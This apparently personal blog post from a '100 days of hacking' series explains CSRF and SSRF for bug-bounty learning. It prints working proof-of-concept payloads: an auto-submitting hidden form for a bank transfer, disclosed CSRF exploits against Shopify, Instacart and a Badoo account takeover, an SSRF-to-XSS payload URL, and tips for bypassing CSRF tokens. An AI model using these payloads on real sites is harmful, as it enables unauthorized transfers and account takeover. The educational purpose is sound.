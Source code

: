 ```yaml
---
title:  "Day 3/100 Hack and Improvement"
date: 2020-05-03
tags: [Penetration Testing, Hacking, Bug Bounty, Offensive Security]
header: 
  image: "assets/images/100dl/day3/header.jpg"
---
```

Day 3 of **100daysofhackandimprove** comes handy wirh Cross Site Request Forgery (CSRF) vulnerabilitis, and different ways to exploit it. Whil still reading chapter by chapter [Real-World Bug Hunting](https://www.amazon.com/Real-World-Bug-Hunting-Field-Hacking-ebook/dp/B072SQZ2LG), I cannot deny that the book provides a pretty good explanation for this kind of vulnerability. Also, in this post there will be an explanation related to Server Side Request Forgery (SSRF) where attackers can escalate this vulnearbility and attempts further attacks. 

## Cross Site Request Forgery (CSRF)

From [Sam (CoffeeJunkie)](https://twitter.com/coffeejunkiee_), Cross Site Request Forgery (CSRF) occurs when an attacker can make a target’s browser send an HTTP request to another website. The attack relies on the target being previously authenticated on the vulnerable website. Then, the action is submitted and occurs without the target's knowledge. If the attack is successful, the attacker is able to modify server side information and it is even possible to achieve account take over. In order to understand this vulnerability, there must be some understanding about authentication. 

### Authentication

CSRF attack usually take advantage of weakness in the process websites use to authenticate requests.  Usually in different kind of websites it requires username and password to authenticate you. The site will store the authentication in the browser. It can be stored in the following ways: 
 
- Using an authentication protocol
Usually with basic authorization happens when HTTP requests include a header similar to this.
```
Authorization: Basic QWxhZGRpbjpPcGVuU2VzYW1l
```
In this case, the basic authorization is base64 encoded. 

- Cookies

Cookies are small files that websites create and store in the user's browser. Cookies have certain attributes that which are standardized pieces of information which its details tell browsers about the cookies and how to threat them. Cookies has different kind of uses, from which kind of settings the user has set in the site, to which domains the site is communicating to. There are certain cookies which can interact with HTTP and HTTPS, this depends the flag that has been set in the cookie. 

### CSRF with GET Requests

Taking as an example the usage of the HTML ```<img>``` tag will be useful to set this attack. Let's say that the attacker wants to make a money transfer from the victim's banking site. The attacker doesn't know the victim's cookies. In this case the HTML ```<img>``` comes pretty handy because the attacker can add the ```src``` attribute which will do the HTTP request.  When the attacker uses ```src``` as the victim's banking site, it will come with the victim's cookies. A "normal" banking transfer in the victim's site will look like this. 
```
https://www.bank.com/transfer?from=victim&to=attacker&amount=1000
```
Then the malicious ```<img>``` tag would use this URL as its source value, as in the following tag:
```
<img src="https://www.bank.com/transfer?from=victim&to=attacker&amount=1000">
```
Once the victim clicks in the attacker's site. It will make a money transfer from the victim's account to the attacker's account. 

### CSRF with POST Requests

Following the same example from the bank, let's say that the bank is using post requests to make a money transfer, therefore, the approach for the CSRF attack will be different. As the attacker cannot use the ```img``` tag, the attack will depend of the content of the POST request.  Then, the content of the POST request would look something like this.

```html
<iframe style="display:none" name="csrf-frame"></iframe>
<form method='POST' action='http://bank.com/transfer' target="csrf-frame"
id="csrf-form">
<input type='hidden' name='from' value='Victim'>
     <input type='hidden' name='to' value='Attacker'>
     <input type='hidden' name='amount' value='500'>
     <input type='submit' value='submit'>
</form>
<script>document.getElementById("csrf-form").submit()</script>
```
With the HTML code from above, the attacker is making a money transfer through a post request. As the attacker doesn't want the victim to know the content of the request, the attacker use ```input type='hidden'``` which won't be visible for the victim. As the final step, the attacker includes some JavaScript inside a ```<script>``` tag to automatically submit the form when the page is loaded. To note, POST requests in different cases might use different kind of ```content-type``` like in some cases might be json. Also, to make the attack successful, the attacker most be aware of the usage of ```csrf tokens``` which sometimes includes in the content of the POST request, or it can depends on the usage. This token is used in order to make the website understand that the content comes from the same site. There are some set of rules that define  how websites an read the responses  from each  other, this is called cross origin resource sharing (CORS). If you want to know if the CSRF token has been well implemented, you can change the value, or delete it. In some cases CORS protections can be fooled by changing the ```content-type``` header to ```application/x-www-form-urlencoded, multipart/form-data, or text/plain```.

### Write Ups and Explanations

[**Shopify Disconnect Twitter**](https://hackerone.com/reports/111216/)

The attacker could disconnect the account of the victim with the following PoC. 
```html
<html>
<body>
 <img src="https://twitter-commerce.shopifyapps.com/auth/twitter/disconnect">
  </body>
</html>
```
When looking for CSRF vulnerabilities, look for GET request that can modify server-side data

[**Change Users Instacart zones**](https://hackerone.com/reports/157993/)

The attacker was able to change the zip code of any victim with a POST request, this is the PoC. 

```html
<html>
  <body>
    <form action="https://admin.instacart.com/api/v2/zones" method="POST">
      <input type="hidden" name="zip" value="10001" />
      <input type="hidden" name="override" value="true" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```
Remember website API's endpoints and its web pages.

[**Badoo Full Account take Over**](https://hackerone.com/reports/127703/)

So the attacker can add an account take over to any account with the following URL. 
```
https://eu1.badoo.com/google/verify.phtml?rt=<State_param_value>&code=<Code_returned_from_google>
```
The only protection that exists here is the ```rt``` parameter. The attacker found a way to bypass this finding the ```rt``` parameter with the following URLs
```
https://eu1.badoo.com/worker-scope/chrome-service-worker.js
var url_stats = 'https://eu1.badoo.com/chrome-push-stats?ws=1&rt=<rt_param_value>';
```
Therefore, this is the PoC that allows the account take over bypassing the CSRF protection. 
```html
<html>
<head>
<title>Badoo account take over</title>
<script src=https://eu1.badoo.com/worker-scope/chrome-service-worker.js?ws=1></script>
</head>
<body>
<script>
function getCSRFcode(str) {
    return str.split('=')[2];
}
window.onload = function(){
var csrf_code = getCSRFcode(url_stats);
csrf_url = 'https://eu1.badoo.com/google/verify.phtml?code=4/nprfspM3yfn2SFUBear08KQaXo609JkArgoju1gZ6Pc&authuser=3&session_state=7cb85df679219ce71044666c7be3e037ff54b560..a810&prompt=none&rt='+ csrf_code;
window.location = csrf_url;
};
</script>
```

## Server Side Request Forgery

From [Rajesh Ranjan](https://twitter.com/eh_rajesh), Server Side Request Forgery (SSRF) vulnerabilities let an attacker send crafted requests from the back-end server of a vulnerable web application. Criminals usually use SSRF attacks to target internal systems that are behind firewalls and are not accessible from the external network.

### What an attacker achive with SSRF
**SSRF to Reflected XSS**
So in this scenario, we can simply upload XSS payload on our server or we can use the brutelogic payload which is:
```
http://brutelogic.com.br/poc.svg
```

Lets suppose that, the vulnerable website is ```http://site.example.com/?url=```, then paste the payload link here, which will look like:
```
http://site.example.com/?url=http://brutelogic.com.br/poc.svg
```

### Write Ups 
[**SSRF to Reflested XSS in Jira**](https://medium.com/@adeshkolte/how-i-found-xss-via-ssrf-vulnerability-adesh-kolte-873b30a6b89f)

So in this writeup, the researcher found that, the website was running the old version of Jira which was vulnerable to SSRF

### Labs and Videos
[**Portswigger Labs for SSRF**](https://portswigger.net/web-security/ssrf)

Also nahamsec solved these all labs in one of his stream, click [here]((https://www.youtube.com/watch?v=324cZic6asE)) to see the stream. 

## Conclusion

CSRF and SSRF vulnerabilities can be used for different kind of attacks that might cause an impact on the company, depending the skills of the attacker. 